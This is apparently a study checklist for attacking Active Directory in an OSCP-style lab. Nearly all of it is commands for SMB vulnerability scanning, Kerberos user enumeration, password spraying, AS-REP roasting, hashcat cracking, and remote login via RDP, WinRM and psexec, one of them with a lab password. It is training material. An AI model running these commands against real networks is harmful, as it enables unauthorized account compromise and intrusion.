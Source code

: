 
### Have open while you do the AD section
- https://wadcoms.github.io/#+No%20Creds+Enumeration
- https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_04.svg
# Enumeration
- [ ] Same steps as enum_checklist
- [ ] scan port 139 and 445 for smb vulnerabilities
```
nmap --script=smb-vuln* -p 139,445 192.168.xxx.xxx
```

# Have potential usernames?
- [ ] Enumerate port 88 *Kerberos* to check
```
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=users.txt 192.168.xxx.xxx
```

# Have a username?
- [ ] Check policy if you have a user's credentials. If no cooldown, rockyou that shit
```
cme 192.168.xxx.xxx -u 'user' -p 'password' --pass-pol
```
- [ ] Use list of *all* passwords -  if you trigger lockout then revert machines 
```
nxc smb 192.168.xxx.xxx -u user -p password.txt
```
- [ ] ASREPRoast the user
```
impacket-GetNPUsers -dc-ip 192.168.210.70 -request -outputfile hashes.asreproast corp.com/pete
```
- [ ] Crack the ASREPRoast if successful
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
# Have usernames and passwords but no accounts?
- [ ] Netexec the usernames and passwords - only works for short lists due to lockouts
```
nxc smb 192.168.1.101 -u usernames.txt -p password.txt
```

# Found a new password?
- [ ] Netexec the usernames with that password - only works for short lists due to lockouts
```
nxc smb 192.168.1.101 -u usernames.txt -p 'password'
```
# Have a new users' credentials?
- [ ] Try to log in with RDP
```
xfreerdp /u:user /d:oscp.exam /p:password /v:192.168.xxx.xxx
```
- [ ] Try to log in with winrm
```
evil-winrm -i 192.168.244.96 -u apache -p 'New2Era4.!'
```
- [ ] Try to log in with impacket psexec
```
impacket-psexec oscp.exam/user@192.168.xxx.xxx
```
